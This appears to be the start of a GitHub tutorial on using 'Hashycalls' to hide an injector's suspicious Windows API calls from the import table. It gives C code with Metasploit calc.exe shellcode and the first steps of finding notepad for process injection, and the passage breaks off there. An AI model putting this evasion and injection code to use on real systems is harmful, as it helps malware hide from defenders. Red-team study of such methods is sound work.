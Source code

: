 # Writing a basic injector with Hashycalls
This is a tutorial to demonstrate how hashycalls can be implemented in a basic injector to hide its malicious function calls from the final executables import address table.

## Step 0; Architecting our injector
We'll need to choose how our injector will function. For this example, the injector will enumerate the processes on the host, locate the notepad process & inject some calculator shellcode into it.

###### injector.c

```c
# include <windows.h>
# include <tlhelp32.h>
# define TARGET_PROCESS L"notepad.exe"
int main()
{
    /* msf calc.exe */
	char shellcode[] = {
		0xfc, 0x48, 0x83, 0xe4, 0xf0, 0xe8, 0xc0, 0x00, 0x00, 0x00, 0x41, 0x51, 0x41, 0x50, 0x52, 0x51,
		0x56, 0x48, 0x31, 0xd2, 0x65, 0x48, 0x8b, 0x52, 0x60, 0x48, 0x8b, 0x52, 0x18, 0x48, 0x8b, 0x52,
		0x20, 0x48, 0x8b, 0x72, 0x50, 0x48, 0x0f, 0xb7, 0x4a, 0x4a, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0,
		0xac, 0x3c, 0x61, 0x7c, 0x02, 0x2c, 0x20, 0x41, 0xc1, 0xc9, 0x0d, 0x41, 0x01, 0xc1, 0xe2, 0xed,
		0x52, 0x41, 0x51, 0x48, 0x8b, 0x52, 0x20, 0x8b, 0x42, 0x3c, 0x48, 0x01, 0xd0, 0x8b, 0x80, 0x88,
		0x00, 0x00, 0x00, 0x48, 0x85, 0xc0, 0x74, 0x67, 0x48, 0x01, 0xd0, 0x50, 0x8b, 0x48, 0x18, 0x44,
		0x8b, 0x40, 0x20, 0x49, 0x01, 0xd0, 0xe3, 0x56, 0x48, 0xff, 0xc9, 0x41, 0x8b, 0x34, 0x88, 0x48,
		0x01, 0xd6, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0, 0xac, 0x41, 0xc1, 0xc9, 0x0d, 0x41, 0x01, 0xc1,
		0x38, 0xe0, 0x75, 0xf1, 0x4c, 0x03, 0x4c, 0x24, 0x08, 0x45, 0x39, 0xd1, 0x75, 0xd8, 0x58, 0x44,
		0x8b, 0x40, 0x24, 0x49, 0x01, 0xd0, 0x66, 0x41, 0x8b, 0x0c, 0x48, 0x44, 0x8b, 0x40, 0x1c, 0x49,
		0x01, 0xd0, 0x41, 0x8b, 0x04, 0x88, 0x48, 0x01, 0xd0, 0x41, 0x58, 0x41, 0x58, 0x5e, 0x59, 0x5a,
		0x41, 0x58, 0x41, 0x59, 0x41, 0x5a, 0x48, 0x83, 0xec, 0x20, 0x41, 0x52, 0xff, 0xe0, 0x58, 0x41,
		0x59, 0x5a, 0x48, 0x8b, 0x12, 0xe9, 0x57, 0xff, 0xff, 0xff, 0x5d, 0x48, 0xba, 0x01, 0x00, 0x00,
		0x00, 0x00, 0x00, 0x00, 0x00, 0x48, 0x8d, 0x8d, 0x01, 0x01, 0x00, 0x00, 0x41, 0xba, 0x31, 0x8b,
		0x6f, 0x87, 0xff, 0xd5, 0xbb, 0xf0, 0xb5, 0xa2, 0x56, 0x41, 0xba, 0xa6, 0x95, 0xbd, 0x9d, 0xff,
		0xd5, 0x48, 0x83, 0xc4, 0x28, 0x3c, 0x06, 0x7c, 0x0a, 0x80, 0xfb, 0xe0, 0x75, 0x05, 0xbb, 0x47,
		0x13, 0x72, 0x6f, 0x6a, 0x00, 0x59, 0x41, 0x89, 0xda, 0xff, 0xd5, 0x63, 0x61, 0x6c, 0x63, 0x2e,
		0x65, 0x78, 0x65, 0x00
	};
	PROCESSENTRY32W Process			= { .dwSize = sizeof( PROCESSENTRY32W ) };
	HANDLE			hSnapshot		= CreateToolhelp32Snapshot( TH32CS_SNAPPROCESS, 0 ),
					hProcess		= 0,
					hThread			= 0;
	PVOID			pShellcode		= 0;
	SIZE_T			BytesWritten	= 0;
	DWORD			OldProtection	= 0;
	Process32First( hSnapshot, &Process );
```